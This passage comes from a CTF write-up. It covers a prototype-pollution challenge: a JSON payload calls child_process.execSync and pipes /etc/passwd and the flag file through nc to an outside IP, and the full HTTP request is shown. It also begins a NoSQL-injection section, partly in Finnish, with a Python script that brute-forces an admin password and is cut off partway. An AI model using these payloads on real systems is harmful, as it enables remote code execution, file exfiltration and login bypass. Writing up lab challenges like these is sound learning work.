 ```


{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`sh -c 'cat /etc/passwd |nc 138.68.185.142 80'`)"
        }
}
```

Keep wiggling on sending the original request and the exploit. The flag will come eventually.. During the CTF, the containers were a BIT wobbly.

#### Flag
```
POST /api/submit HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:1337/
Content-Type: application/json
Origin: http://178.62.50.172:31875
Content-Length: 175
Connection: close

{
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`sh -c 'cat /app/flag* |nc 138.68.185.142 80'`)"
        }
}
```

CHTB{p0llute_with_styl3}

### ~~Goose hunt~~

*Antti*

NoSQL injection
Kohteena node.js express servu joka käyttää mongoose.
Clientti lähettää requestit urlencoded mutta servu sallii myös jsonin.
Tämä json sitten heitetään suoraan .find() functioon => nosqli

Injection avulla voidaan sokeasti arvailla kirjaimia ja tarkastella tulosta.

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://206.189.121.131:31899/api/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
```